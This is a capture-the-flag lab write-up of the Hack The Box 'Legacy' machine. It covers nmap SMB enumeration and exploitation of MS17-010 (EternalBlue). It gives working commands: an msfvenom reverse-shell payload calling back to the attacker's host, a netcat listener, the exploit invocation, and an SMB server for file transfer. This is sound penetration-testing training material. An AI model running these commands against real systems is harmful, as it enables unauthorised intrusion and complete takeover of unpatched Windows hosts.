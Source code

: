 # Legacy without Metasploit

## Enumeration

### Run nmap scan: 

#### **`nmap -T4 -p- -A 10.10.10.4`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![](../.gitbook/assets/legacy-nmap.png)

#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running Windows XP microsoft-ds.
* **Host script results:** Definitely a Windows XP machine.
* **SMB-security-mode:** Message signing is disabled, which means an SMB Relay attack could work, but for this box, it will not be done for this instance.

Looks like our only option is to use an SMB exploit. Let's enumerate further with nmap smb vulnerability scripts.

```text
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```

Breaking down the command above:

* v Flag - Makes the output verbose, giving more details as to what is happening.
* script Flag - Declares we will be using a script. A script must be entered after declaring this flag.
* smb-vuln\* - Utilizes every script beginning with smb-vuln.
* p Flag - Ports to run the scripts against, in this case, it is ports 139 and 445.

![](../.gitbook/assets/smb-vuln-legacy-results.png)

The results of the script show that it is vulnerable to CVE-2008-4250 and CVE-2017-0143. Normally, RCE \(Remote Code Execution\) is prioritized over everything, but both CVE utilize RCE. The server is using SMBv1 and since the Risk Factor is high, I will be going with CVE-2017-0143 \(ms17-010\), otherwise known as EternalBlue.

## Exploitation

Eternal Blue is a vulnerability that exploited Microsoft's SMB protocol, where a specially crafted packet allowed an attacker to execute arbitrary code on the target machine.

First, I must download an exploit. A good one to check out is:

```text
git clone https://github.com/helviojunior/MS17-010.git
```

Next, I will use msfvenom to generate a payload that will create a reverse shell on the Windows machine:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

Then I will set up a listener on our attacking machine:

```text
nc -nlvp 7777
```

Run the exploit:

```text
python send_and_execute.py 10.10.10.4 /opt/eternal.exe
```

![](../.gitbook/assets/exploit-output.png)

Get reverse shell:

![whoami is not recognized.](../.gitbook/assets/caught-shell.png)

### Root.txt and User.txt

We can actually get the root and user flags very simply without any escalation needed for this box and can stop here if we wish. Read further to see how we could transfer over whoami.exe via smbserver.py and figure out what user we are and what privileges we have.

![](../.gitbook/assets/legacy-root-and-user-flags.png)

### Enumerating User and Privileges

To figure out what user I am and what are my privileges, I attempted `whoami`  and `echo %username%` only to fail.

Kali has a whoami executable \(to find, type `locate whoami.exe`\) located at /usr/share/windows-resources/binaries/whoami.exe and we can export this file to the Windows machine. Certutil.exe is not recognized on the Windows machine, which is the curl/wget equivalent to Linux so we cannot transfer files with the `python -m SimpleHTTPServer 80` command.

We must run a SMB server to share files, and we can do this by first locating and running smbserver.py  to share the directory that contains whoami.exe. 

First, we run `locate smbserver.py` which brings back \(for me\) /usr/share/doc/python3-impacket/examples/smbserver.py

![](../.gitbook/assets/locate-smbserver.png)

Then, we must run the smbserver.py and have it host a folder, which we will name "temp" and within temp, will be the directory leading to whoami.exe which is shown below:

```text
python3 /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-resources/binaries/
```

![](../.gitbook/assets/running-smbserver.png)

Let's confirm we can connect to the SMB temp share:

```text
smbclient //10.10.14.95/TEMP
```

![](../.gitbook/assets/confirming-connection-to-smbserver-and-seeing-whoami-executable.png)

Let's try connecting and running whoami.exe on our victim machine:

![](../.gitbook/assets/system-privs.png)

We are NT Authority\System and have the highest level of privileges. There is no need to escalate privileges for this box.

## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

